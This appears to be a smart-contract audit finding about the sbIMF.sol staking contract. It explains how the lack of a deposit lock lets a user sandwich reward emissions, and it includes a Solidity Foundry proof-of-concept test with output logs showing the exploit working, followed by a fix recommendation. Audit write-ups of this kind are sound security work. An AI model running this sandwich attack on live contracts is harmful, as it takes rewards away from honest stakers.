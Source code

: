 ## Description
The `sbIMF.sol` contract allows users to deposit their IMF tokens and earn rewards.
However, lack of a lock mechanism allows this system to be exploited.

## Vulnerability Details
Reward tokens will be sent periodically to the `sbIMF.sol` contract. Lack of a lock
mechanism in the contract allows any malicious user to sandwich attacking reward
emission by depositing their IMF tokens right before and withdrawing them right after.
This leads to malicious users keeping their IMF tokens in the contract for only one block
and still beneting from the rewards as they have kept their tokens in the contract for
the whole duration.

## Proof of Concept
Run the following test in `sbIMFTest.sol`:
```solidity
function testStepwiseJumpExploit() public {
    //mint the tokens for test.
    rewardToken.mint(user2, 5000);
    imfToken.mint(user1, 5000);
    imfToken.mint(user2, 5000);
    imfToken.mint(user3, 5000);
    //user2 deposit tokens
    vm.startPrank(user2);
    imfToken.approve(address(bimf), 5000);
    bimf.mint(1000, 0);
    //user3 deposit tokens
    vm.startPrank(user3);
    imfToken.approve(address(bimf), 5000);
    bimf.mint(1000, 0);
    //user1 deposit just before reward emission
    vm.startPrank(user1);
    imfToken.approve(address(bimf), 5000);
    bimf.mint(5000, 0);
    //reward emission
    vm.startPrank(user2);
    rewardToken.transfer(address(bimf), 1000);
    //withdraw right after reward emission
    vm.startPrank(user1);
    bimf.withdraw(2, 0, 5000);
    vm.stopPrank();
    console.log(rewardToken.balanceOf(user1));
    console.log(imfToken.balanceOf(user1));
}
```
Test will print out the following logs:
```javascript
Logs:
714
5000
```
This test proves that user1 had their tokens in the contract for 1 block and beneted
fully from the reward emission.

## Impact
Malicious users will fully benet from rewards even if they have their tokens deposited
for only 1 block.

## Recommendation
Implement a locking mechanism for users that deposit their tokens

